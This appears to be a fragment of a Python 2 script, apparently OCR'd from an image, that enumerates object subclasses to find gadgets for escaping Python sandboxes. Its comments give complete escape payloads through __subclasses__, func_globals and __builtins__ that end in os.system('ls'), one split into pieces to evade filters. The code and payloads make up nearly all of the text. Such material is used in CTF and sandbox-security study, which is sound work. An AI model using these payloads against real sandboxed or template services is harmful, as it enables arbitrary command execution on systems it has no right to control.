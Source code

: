 ```python
print('----------1-----------')
for i, s in enumerate(sub_name):
    for f in all_targets:
        if f == s:
            if f in target_functions:
                print(i, f)
            elif f in all_modules:
                target = find_modules[f]
                sub_dict = subclasses[i].__dict__
                for t in target:
                    if t in sub_dict:
                        print(i, f, target)
print('----------2-----------')
# The second type of traversal, such as:().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
for i, sub in enumerate(subclasses):
    try:
        more = sub.__init__.func_globals
        for m in all_targets:
            if m in more:
                print(i, sub, m, find_modules.get(m))
    except Exception as e:
        pass
print('----------3-----------')
# The third type of traversal, such as:().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").system("ls")')
for i, sub in enumerate(subclasses):
    try:
        more = sub.__init__.func_globals.values()
        for j, v in enumerate(more):
            for f in all_targets:
                try:
                    if f in v:
                        if f in target_functions:
                            print(i, j, sub, f)
                        elif f in all_modules:
                            target = find_modules.get(f)
                            sub_dict = v[f].__dict__
                            for t in target:
                                if t in sub_dict:
                                    print(i, j, sub, f, target)
                except Exception as e:
                    pass
    except Exception as e:
        pass
print('----------4-----------')
# The fourth type of traversal: such as:().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']("os").system("ls")
# <class 'warnings.catch_warnings'> class is very special. _module=sys.modules['warnings'] is defined internally. Then the warnings module contains __builtins__, which is not universal, and is essentially similar to the first method.
for i, sub in enumerate(subclasses):
    try:
        more = sub()._module.__builtins__
        for f in all_targets:
            if f in more:
                print(
i, f)
    except Exception as e:
        pass
```
